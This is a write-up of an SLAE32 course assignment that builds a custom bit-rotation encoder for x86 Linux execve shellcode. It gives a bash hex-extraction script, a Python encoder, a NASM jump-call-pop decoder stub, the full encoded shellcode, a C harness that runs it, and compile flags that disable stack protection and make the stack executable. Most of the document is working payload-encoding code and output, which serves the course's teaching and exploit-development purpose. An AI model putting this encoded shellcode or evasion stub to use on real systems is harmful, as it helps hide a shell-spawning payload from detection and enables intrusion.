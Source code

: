 For my fourth assignment in the SLAE32 course, I created a custom Rotation Encoder. 
How this works is to encode the payload, it rotates every bit to the left by one. If the greatest bit (valued 128) falls off the left, it wraps around to the lowest bit (valued 1).
Example:

![](/assests/images/rotateLeft.png)

To decode, all the bits are rotated to the right by one. If there is a low bit, it is moved to the highest bit.

0 0 0 1 0 1 0 1

1 0 0 0 1 0 1 0 

The payload used for this example is the `execve` shellcode provided in the SLAE course.

To quickly grab the hex from shellcode, I used the method shown in the SLAE course. 
To make it easier, I added it to a shellscript.
```bash
#!/bin/bash
OBJFILE=$1
objdump -d $(pwd)/${1} | grep '[0-9a-f]:' | grep -v 'file'\
| cut -f2 -d: | cut -f1-6 -d' ' | tr -s ' ' | tr '\t' ' ' \
| sed 's/ $//g' | sed 's/ /\\x/g' | paste -d '' -s \
| sed 's/^/"/' | sed 's/$/"/g'
```
Grabbing the shellcode:
```bash
root@zed# ./objdump2hex.sh execve-stack 
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"
```
Perfect. Now we will need to encode this shellcode using the Python Encoder I created, "`rotateLeftEncoder.py`".
The new encoded shellcode is output in both the '\x' format and the '0x, ' format.
As you can see in the top section, all that needs to be done to change the shellcode payload is replace the string in the shellcode array.
```python
#!/usr/bin/python
shellcode = ("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80")

encoded1 = ""
encoded2 = ""

print 'Encoded shellcode ...'

for x in bytearray(shellcode) :
    if x > 127:
        x = x - 128             # Remove the left-most bit
        x = x << 1              # Shift to the left 1
        x += 1                  # Add 1, to complete the rotate
        encoded1 += '\\x'
        encoded1 += '%02x' %x   # Add the rotated left hex to string 
        encoded2 += '0x'
        encoded2 += '%02x,' %x  # Add the rotated left hex to string 
    else:
        encoded1 += '\\x'       # No leftmost bit, just rotate
        encoded1 += '%02x' %(x << 1)
        encoded2 += '0x'        # No leftmost bit, just rotate
        encoded2 += '%02x,' %(x << 1)
    
print encoded1
print encoded2
print 'Len: %d' % len(bytearray(shellcode))
```
Outputting our new, encoded shellcode:
```bash
root# python rotateLeftEncoder.py
Encoded shellcode ...
\x62\x81\xa0\xd0\x5e\x5e\xe6\xd0\xd0\x5e\xc4\xd2\xdc\x13\xc7\xa0\x13\xc5\xa6\x13\xc3\x61\x16\x9b\x01                   
0x62,0x81,0xa0,0xd0,0x5e,0x5e,0xe6,0xd0,0xd0,0x5e,0xc4,0xd2,0xdc,0x13,0xc7,0xa0,0x13,0xc5,0xa6,0x13,0xc3,0x61,0x16,0x9b,0x01,
Len: 25
```
Our encoded shellcode payload is 25 bytes. We will need to add a final byte to the end "\xff".
This byte will be used by our decoder to let it know it has reached the end of our payload.
We will copy the second output with the "0x, " format to our nasm program after appending the byte.

This assembly program will use the Jump-Call-Pop technique to save the memory location of our string to the stack and then pop that address into the ESI Register. 
Once in the ESI Register, we will decode our encoded shellcode byte by byte using the instructions `ror byte [esi], 1` (rotate to the right one bit, one byte at a time), and `inc esi`. If the decoded byte is `\xff` then we will jump to the shellcode using the instruction `je Shellcode`. 
If the byte is not `\xff` then the zero flag will not be set, and that jump will be ignored. 
The next instruction `jmp short decode` is an unconditional jump. We use this to create the loop to decode our shellcode.
```nasm
; Filename: rotateRightDecoder.nasm
; Author:  Bobby Cooke

global _start

section .text
_start:
        jmp short call_decoder

decoder:
        pop esi

decode:
        ror byte [esi], 1
        cmp byte [esi], 0xFF
        je Shellcode
        inc esi
        jmp short decode
        
call_decoder:
        call decoder
        Shellcode: db 0x62,0x81,0xa0,0xd0,0x5e,0x5e,0xe6,0xd0,0xd0,0x5e,0xc4,0xd2,0xdc,0x13,0xc7,0xa0,0x13,0xc5,0xa6,0x13,0xc3,0x61,0x16,0x9b,0x01,0xff
```
Now that both the decoder and encoder are created, the last thing to do is compile and test.

To compile my Assembly code I used the NASM Compiler with these commands. After creating the object file with NASM, I linked the object file using `ld`.
```bash
nasm -f elf32 rotateRightDecoder.nasm -o rotateRightDecoder.o
ld -o rotateRightDecoder rotateRightDecoder.o
```

I tested the shellcode using the C program shown in the SLAE course.
After extracting the shellcode using the above bash script, I added it to the C program as the `code[]` array.
```c
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\xeb\x0b\x5e\xd0\x0e\x80\x3e\xff\x74\x08\x46\xeb\xf6\xe8"
"\xf0\xff\xff\xff\x62\x81\xa0\xd0\x5e\x5e\xe6\xd0\xd0\x5e"
"\xc4\xd2\xdc\x13\xc7\xa0\x13\xc5\xa6\x13\xc3\x61\x16\x9b\x01\xff";
main()
{
        printf("Shellcode Length:  %d\n", strlen(code));
        int (*ret)() = (int(*)())code;
        ret();
}
```
To speed up compilation while developing my custom rotation encoder, I created a simple bash script to automate the process.
```bash
#!/bin/bash
SHELLCODE=$1
gcc -fno-stack-protector -z execstack -o shellcode $(pwd)/${SHELLCODE}
```
